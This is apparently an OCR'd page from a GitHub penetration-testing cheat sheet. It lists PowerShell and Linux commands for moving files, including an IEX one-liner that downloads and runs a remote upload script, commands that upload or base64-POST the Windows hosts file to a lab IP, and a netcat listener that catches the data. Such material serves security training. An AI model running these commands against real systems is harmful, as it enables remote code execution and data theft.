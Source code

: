| `(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')`                                                                                                                                                                                                                                                        | Transfering Files from an FTP Server Using PowerShell                                                                                                                                          |
| **PowerShell Web Uploads**                                                                                                                                                                                                                                                                                                                        |                                                                                                                                                                                                |
| `pip3 install uploadserver`                                                                                                                                                                                                                                                                                                                       | Installing a Configured WebServer with Upload                                                                                                                                                  |
| `python3 -m uploadserver`                                                                                                                                                                                                                                                                                                                         | Installing a Configured WebServer with Upload                                                                                                                                                  |
| `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`                                                                                                                                                                                                           | PowerShell Script to Upload a File to Python Upload Server                                                                                                                                     |
| `Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`                                                                                                                                                                                                                                            | Uploading the file using the script                                                                                                                                                            |
| **PowerShell Base64 Web Upload**                                                                                                                                                                                                                                                                                                                  |                                                                                                                                                                                                |
| `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`                                                                                                                                                                                                                             | PowerShell Script to Upload a File to Python Upload Server                                                                                                                                     |
| `Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`                                                                                                                                                                                                                                                                      | Uploading the file using Powershell script                                                                                                                                                     |
| `nc -lvnp 8000`                                                                                                                                                                                                                                                                                                                                   | We catch the base64 data with Netcat and use the base64 application with the decode option to convert the string to the file.                                                                  |
| `echo <base64> \| base64 -d -w 0 \> hosts`                                                                                                                                                                                                                                                                                                        | Decoding                                                                                                                                                                                       |